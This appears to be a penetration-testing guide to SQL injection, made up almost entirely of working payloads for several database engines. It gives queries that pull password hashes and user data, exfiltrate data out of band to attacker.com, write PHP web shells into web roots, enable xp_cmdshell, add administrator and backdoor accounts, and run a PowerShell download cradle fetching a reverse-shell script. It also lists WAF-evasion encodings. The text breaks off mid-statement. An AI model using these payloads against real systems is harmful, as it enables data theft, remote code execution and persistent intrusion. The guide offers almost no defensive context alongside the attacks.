# Advanced SQL Injection Techniques - Complete Guide

## Professional Edition for Security Researchers & Penetration Testers


# Table of Contents

1. [Fundamentals & Core Concepts](#fundamentals--core-concepts)
2. [SQL Injection Methodology](#sql-injection-methodology)
3. [Advanced Reconnaissance Techniques](#advanced-reconnaissance-techniques)
4. [Injection Types & Vectors](#injection-types--vectors)
5. [Advanced Exploitation Techniques](#advanced-exploitation-techniques)
6. [Bypass Techniques](#bypass-techniques)
7. [Database-Specific Attacks](#database-specific-attacks)
8. [Automation & Tools](#automation--tools)
9. [Defense Evasion](#defense-evasion)
10. [Real-World Case Studies](#real-world-case-studies)

---

## Fundamentals & Core Concepts

### SQL Injection Attack Surface



### SQL Injection Classification



### Database Fingerprinting Workflow



---

## SQL Injection Methodology

### Complete Testing Methodology Flowchart



### Advanced Testing Decision Tree



---

## Advanced Reconnaissance Techniques

### Database Fingerprinting

```sql
-- MySQL Fingerprinting
' OR 1=1 AND (SELECT SUBSTR(@@version,1,1))='5' --
' UNION SELECT @@version, @@hostname, @@datadir --

-- MSSQL Fingerprinting
' OR 1=1 AND @@VERSION LIKE '%Microsoft%' --
' UNION SELECT @@VERSION, DB_NAME(), HOST_NAME() --

-- Oracle Fingerprinting
' OR 1=1 AND (SELECT banner FROM v$version WHERE ROWNUM=1) LIKE '%Oracle%' --
' UNION SELECT banner, NULL, NULL FROM v$version --

-- PostgreSQL Fingerprinting
' OR 1=1 AND (SELECT version()) LIKE '%PostgreSQL%' --
' UNION SELECT version(), current_database(), current_user --

-- SQLite Fingerprinting
' OR 1=1 AND sqlite_version()=sqlite_version() --
' UNION SELECT sqlite_version(), NULL, NULL --
```

### Advanced Enumeration Queries

```sql
-- MySQL Complete Schema Enumeration
' UNION SELECT 
    TABLE_SCHEMA,
    TABLE_NAME,
    COLUMN_NAME,
    DATA_TYPE,
    CHARACTER_MAXIMUM_LENGTH
FROM information_schema.COLUMNS
WHERE TABLE_SCHEMA NOT IN ('mysql','information_schema','performance_schema')
ORDER BY TABLE_SCHEMA, TABLE_NAME --

-- MSSQL Complete Schema
' UNION SELECT 
    s.name as schema_name,
    t.name as table_name,
    c.name as column_name,
    ty.name as data_type,
    c.max_length
FROM sys.tables t
JOIN sys.schemas s ON t.schema_id = s.schema_id
JOIN sys.columns c ON t.object_id = c.object_id
JOIN sys.types ty ON c.user_type_id = ty.user_type_id --

-- Oracle Schema Enumeration
' UNION SELECT 
    owner,
    table_name,
    column_name,
    data_type,
    data_length
FROM all_tab_columns
WHERE owner NOT IN ('SYS','SYSTEM','XDB')
ORDER BY owner, table_name --

-- PostgreSQL Schema
' UNION SELECT 
    table_schema,
    table_name,
    column_name,
    data_type,
    character_maximum_length
FROM information_schema.columns
WHERE table_schema NOT IN ('pg_catalog','information_schema')
ORDER BY table_schema, table_name --
```

### Privilege Escalation Detection

```sql
-- MySQL Privileges Check
' UNION SELECT 
    GRANTEE,
    PRIVILEGE_TYPE,
    IS_GRANTABLE
FROM information_schema.USER_PRIVILEGES
WHERE GRANTEE LIKE CONCAT('%',SUBSTRING_INDEX(USER(),'@',1),'%') --

-- Check FILE privilege (MySQL)
' UNION SELECT 
    'FILE_PRIV:', 
    PRIVILEGE_TYPE,
    'GRANTABLE:' || IS_GRANTABLE
FROM information_schema.USER_PRIVILEGES
WHERE PRIVILEGE_TYPE = 'FILE' --

-- MSSQL Server Roles
' UNION SELECT 
    r.name as role_name,
    m.name as member_name,
    'Database:' + DB_NAME()
FROM sys.database_role_members rm
JOIN sys.database_principals r ON rm.role_principal_id = r.principal_id
JOIN sys.database_principals m ON rm.member_principal_id = m.principal_id --

-- Oracle Privilege Check
' UNION SELECT 
    privilege,
    'IS_GRANTABLE:' || grantable,
    table_name
FROM user_tab_privs --
```

---

## Injection Types & Vectors

### 1. Error-Based SQL Injection

```sql
-- Double Query (Subquery returns more than 1 row)
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(version(),FLOOR(RAND(0)*2))x 
     FROM information_schema.tables GROUP BY x)a) --

-- Extract tables via double query
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(
    (SELECT table_name FROM information_schema.tables 
     WHERE table_schema=database() LIMIT 0,1),
    FLOOR(RAND(0)*2))x 
FROM information_schema.tables GROUP BY x)a) --

-- MSSQL Error-Based (convert/parse)
' AND 1=CONVERT(int,(SELECT TOP 1 table_name FROM information_schema.tables)) --

-- PostgreSQL Error-Based
' AND 1=CAST((SELECT table_name FROM information_schema.tables 
              LIMIT 1) AS int) --
```

### 2. Union-Based Injection

```sql
-- Determine column count
' ORDER BY 1 --
' ORDER BY 2 --
' ORDER BY 3 -- (continues until error)

-- Find visible columns
' UNION SELECT NULL, NULL, NULL --
' UNION SELECT 1,2,3 --
' UNION SELECT 'test1','test2','test3' --

-- Extract data
' UNION SELECT username, password, NULL FROM users --
' UNION SELECT GROUP_CONCAT(table_name), NULL, NULL 
  FROM information_schema.tables WHERE table_schema=database() --

-- Advanced union with string concatenation
' UNION SELECT 
    CONCAT(username,':',password),
    CONCAT(email,':',phone),
    NULL 
FROM users --
```

### 3. Boolean-Based Blind SQLi

```sql
-- Basic boolean detection
' AND 1=1 -- (true response)
' AND 1=2 -- (false response)

-- Extract database name length
' AND LENGTH(database())=5 --

-- Extract database name character by character
' AND ASCII(SUBSTRING(database(),1,1))=100 -- (100 = 'd')

-- Binary search optimization
' AND ASCII(SUBSTRING(database(),1,1))>100 --

-- Advanced boolean exploitation script logic
' AND (SELECT ASCII(SUBSTRING(password,1,1)) 
       FROM users WHERE id=1) > 80 --
```

### 4. Time-Based Blind SQLi

```sql
-- MySQL time-based
' AND IF(1=1, SLEEP(5), 0) --

-- Check database name length
' AND IF(LENGTH(database())=5, SLEEP(5), 0) --

-- Extract character
' AND IF(ASCII(SUBSTRING(database(),1,1))=100, SLEEP(5), 0) --

-- MSSQL time-based
' IF (SELECT COUNT(*) FROM users)>0 WAITFOR DELAY '0:0:5' --

-- PostgreSQL time-based
' AND (SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END) --

-- Oracle time-based
' AND (SELECT CASE WHEN (1=1) THEN 
       dbms_pipe.receive_message(('a'),5) ELSE 1 END FROM dual) IS NOT NULL --
```

### 5. Out-of-Band SQL Injection

```sql
-- MySQL DNS Exfiltration (requires FILE privilege)
' UNION SELECT LOAD_FILE(
    CONCAT('\\\\',(SELECT password FROM users WHERE id=1),'.attacker.com\\test.txt')
) --

-- MSSQL OOB with xp_dirtree
' EXEC master..xp_dirtree '\\attacker.com\'+@@servername+'share' --

-- MSSQL OOB with xp_subdirs
' EXEC master..xp_subdirs '\\attacker.com\'+DB_NAME() --

-- Oracle OOB via UTL_HTTP
' UNION SELECT UTL_HTTP.REQUEST(
    'http://attacker.com/exfil?data='||
    (SELECT password FROM users WHERE ROWNUM=1)
) FROM dual --

-- PostgreSQL OOB via COPY
'; COPY (SELECT password FROM users) 
TO PROGRAM 'nslookup result.attacker.com' --
```

---

## Advanced Exploitation Techniques

### File System Access



```sql
-- MySQL Read File
' UNION SELECT LOAD_FILE('/etc/passwd'), NULL, NULL --
' UNION SELECT LOAD_FILE('C:/Windows/System32/drivers/etc/hosts'), NULL, NULL --

-- MySQL Write File (Web Shell)
' UNION SELECT '', '<?php system($_GET["cmd"]); ?>', '' 
INTO OUTFILE '/var/www/html/shell.php' --

-- MySQL Write File Alternative (NULL byte bypass)
' UNION SELECT '', 0x3c3f7068702073797374656d28245f4745545b22636d64225d293b203f3e, '' 
INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED BY 0x --

-- MSSQL Read File
' UNION SELECT BulkColumn 
FROM OPENROWSET(BULK 'C:\Windows\System32\drivers\etc\hosts', SINGLE_BLOB) x --

-- MSSQL Write File
'; EXEC sp_configure 'show advanced options', 1; 
RECONFIGURE; 
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE; 
EXEC xp_cmdshell 'echo ^<^?php system($_GET["cmd"]); ?^> > C:\inetpub\wwwroot\shell.php' --

-- PostgreSQL Copy to file
'; COPY (SELECT '<?php system($_GET[''cmd'']); ?>') 
TO '/var/www/html/shell.php' --
```

### OS Command Execution



```sql
-- MSSQL Command Execution
'; EXEC xp_cmdshell 'whoami' --
'; EXEC xp_cmdshell 'net user hacker Pass123 /add' --
'; EXEC xp_cmdshell 'net localgroup administrators hacker /add' --

-- MSSQL enable xp_cmdshell
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE --
'; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE --

-- MSSQL alternative command execution
'; EXEC master.dbo.sp_OACreate 'WScript.Shell', @o OUT --
'; EXEC master.dbo.sp_OAMethod @o, 'Run', NULL, 'cmd /c whoami' --

-- MySQL UDF Command Execution (requires plugin)
'; CREATE FUNCTION sys_exec RETURNS STRING SONAME 'lib_mysqludf_sys.so' --
'; SELECT sys_exec('whoami') --

-- Oracle OS Command (requires Java)
'; BEGIN 
    DBMS_JAVA.GRANT_PERMISSION('SCOTT', 'java.io.FilePermission', '<<ALL FILES>>', 'execute');
    DBMS_SCHEDULER.CREATE_JOB(
        job_name => 'cmd_job',
        job_type => 'EXECUTABLE',
        job_action => '/bin/bash',
        number_of_arguments => 2,
        enabled => FALSE
    );
END; --
```

### Second-Order SQL Injection



```sql
-- Second-order injection examples

-- Step 1: Insert malicious data
' INSERT INTO users (username, email) VALUES ('test'' OR ''1''=''1', 'test@test.com') --

-- Step 2: When application uses stored username in another query
-- Original query: SELECT * FROM messages WHERE username='test' OR '1'='1'
' SELECT * FROM messages WHERE username='test' OR '1'='1' --

-- Profile update injection
' UPDATE users SET profile='Admin' WHERE username='attacker'' -- 
-- Now updates: UPDATE users SET profile='Admin' WHERE username='attacker' --'

-- Advanced persistent backdoor via triggers
CREATE TRIGGER backdoor_trigger 
AFTER INSERT ON users 
FOR EACH ROW 
BEGIN
    INSERT INTO attack_log VALUES (NEW.id, USER(), NOW());
END; --
```

---

## Bypass Techniques

### WAF Bypass Techniques Flow



### Encoding Bypass Examples

```sql
-- Basic encoding examples

-- URL Encoding
' UNION SELECT password FROM users --
%27%20UNION%20SELECT%20password%20FROM%20users%20--

-- Double URL Encoding
%2527%2520UNION%2520SELECT%2520password%2520FROM%2520users%2520--

-- Unicode Encoding
' %u0055NION %u0053ELECT password FROM users --

-- Hex Encoding
0x2720554e494f4e2053454c4543542070617373776f72642046524f4d207573657273202d2d

-- Base64 (if accepted)
Jw== ' UNION SELECT password FROM users -- (Encoded)

-- Character encoding mixing
SELECT CHAR(117)+CHAR(115)+CHAR(101)+CHAR(114)+CHAR(115) -- Returns 'users'

-- Mixed encoding
' UN/**/ION SEL/**/ECT password FR/**/OM users --
```

### Advanced WAF Bypass Payloads

```sql
-- Comment injection
' UNION/**/SELECT/**/password/**/FROM/**/users --
' /*!UNION*/ /*!SELECT*/ password /*!FROM*/ users --

-- Whitespace alternatives
' UNION%0SELECT%0password%0FROM%0users -- (%0 = NULL char)
' UNION%09SELECT%09password%09FROM%09users -- (%09 = tab)
' UNION%0ASELECT%0Apassword%0AFROM%0Ausers -- (%0A = newline)
' UNION%0DSELECT%0Dpassword%0DFROM%0Dusers -- (%0D = carriage return)

-- Alternative keywords
' UNION SELECT passwd FROM usr WHERE user LIKE 'admin' --
' /*!50000UNION*/ /*!50000SELECT*/ pass FROM users --

-- Case variation
' uNiOn SeLeCt PaSsWoRd FrOm UsErS --
' UnIoN SeLeCt pAsSwOrD FrOm uSeRs --

-- String bypass techniques
' UNION SELECT password FROM users WHERE 'a'='a
' UNION SELECT password FROM users WHERE 'a'!='b

-- Null byte injection
' UNION SELECT password FROM users WHERE 1=1%00 --

-- Buffer overflow (long parameters)
' AND 1=1/*AAA...AAA*/ --
```

### HTTP Parameter Pollution (HPP)

```sql
-- Parameter pollution examples

-- URL: /search?q=normal&q=' UNION SELECT password FROM users --
-- Some frameworks concatenate: q=normal,' UNION SELECT password FROM users --

-- Multiple parameter values
' UNION SELECT password FROM /**/users WHERE 1=1 --
' UNION SELECT password FROM /*anything*/users WHERE 1=1 --

-- Parameter splitting
/search?q=test' UNION SELECT password FROM users WHERE '1'='1

-- SQL query comment abuse
' UNION SELECT password FROM users--
' UNION SELECT password FROM users#

-- Combining HPP with encoding
q=test&q='UNION&q=SELECT&q=password&q=FROM&q=users --
```

### Advanced Filter Evasion

```sql
-- Bypass keyword filters with comments
SEL/**/ECT -> SELECT
UN/**/ION -> UNION
FR/**/OM -> FROM
WHE/**/RE -> WHERE

-- Bypass space filters
SELECT(password)FROM(users)WHERE(id=1)
SELECT+password+FROM+users+WHERE+id%3D1

-- Bypass quote filters
SELECT password FROM users WHERE username=0x61646d696e -- (hex: 'admin')
SELECT password FROM users WHERE username=CHAR(97,100,109,105,110)
SELECT password FROM users WHERE username=CONCAT('ad','min')

-- Bypass equal sign
SELECT password FROM users WHERE id LIKE 1
SELECT password FROM users WHERE id BETWEEN 1 AND 1
SELECT password FROM users WHERE id IN (1)

-- Bypass parenthesis
SELECT password FROM users WHERE 1>0 UNION SELECT password FROM users

-- MySQL version-specific bypass
/*!50000SELECT*/ password FROM users -- (Executed only if MySQL >= 5.0)

-- Backtick bypass (MySQL)
SELECT `password` FROM `users` WHERE `username`='admin'

-- Whitespace character table
-- 0x09 - Horizontal Tab
-- 0x0A - Line Feed
-- 0x0B - Vertical Tab
-- 0x0C - Form Feed
-- 0x0D - Carriage Return
-- 0xA0 - Non-breaking Space
```

---

## Database-Specific Attacks

### MySQL Advanced Attacks

```sql
-- Reading MySQL User Hash
' UNION SELECT 
    user,
    authentication_string,
    host
FROM mysql.user --

-- MySQL Hash Cracking (using John/Hashcat)
-- Format: *B8F5A3C8A3D635A...

-- Creating a backdoor user
'; INSERT INTO mysql.user 
   (Host, User, authentication_string, ssl_cipher, x509_issuer, x509_subject)
   VALUES ('%', 'backdoor', '*B8F5A3C8A3D635A2C451514C6F9429A013B29A23', 
           '', '', '') --
'; FLUSH PRIVILEGES --

-- MySQL DNS Request (requires FILE)
' UNION SELECT LOAD_FILE(
    CONCAT('\\\\', database(), '.', user(), '.attacker.com\\test')
) --

-- Reading MySQL config
' UNION SELECT LOAD_FILE('/etc/mysql/my.cnf'), NULL, NULL --
' UNION SELECT LOAD_FILE('C:\\xampp\\mysql\\bin\\my.ini'), NULL, NULL --

-- MySQL UDF Privilege Escalation
'; USE mysql;
CREATE TABLE backdoor(line blob);
INSERT INTO backdoor VALUES(LOAD_FILE('/tmp/raptor_udf2.so'));
SELECT * FROM backdoor INTO DUMPFILE '/usr/lib/mysql/plugin/raptor_udf2.so';
CREATE FUNCTION do_system RETURNS INTEGER SONAME 'raptor_udf2.so';
SELECT do_system('id > /tmp/output.txt'); --
```

### MSSQL Advanced Attacks

```sql
-- Enable xp_cmdshell
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; --
'; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --

-- Execute commands via xp_cmdshell
'; EXEC xp_cmdshell 'whoami'; --
'; EXEC xp_cmdshell 'powershell -c "IEX(New-Object Net.WebClient).DownloadString(''http://attacker.com/rev.ps1'')"'; --

-- OLE Automation (alternative to xp_cmdshell)
'; DECLARE @o int; 
EXEC sp_OACreate 'WScript.Shell', @o OUT; 
EXEC sp_OAMethod @o, 'Run', NULL, 'cmd /c whoami > C:\temp\out.txt'; --

-- Reading registry
'; EXEC xp_regread 
   'HKEY_LOCAL_MACHINE',
   'SYSTEM\CurrentControlSet\Services\Tcpip\Parameters',
   'Hostname'; --

-- MSSQL Linked Servers
'; SELECT * FROM OPENQUERY(linked_server, 'SELECT password FROM users'); --

-- Extract linked server credentials
'; SELECT srvname, datasource FROM master..sysservers; --

-- MSSQL Impersonation
'; EXECUTE AS LOGIN = 'sa'; 
SELECT SYSTEM_USER; 
REVERT; --

-- Create SQL Server Agent job
'; EXEC msdb.dbo.sp_add_job @job_name='backup_task'; 
EXEC msdb.dbo.sp_add_jobstep 
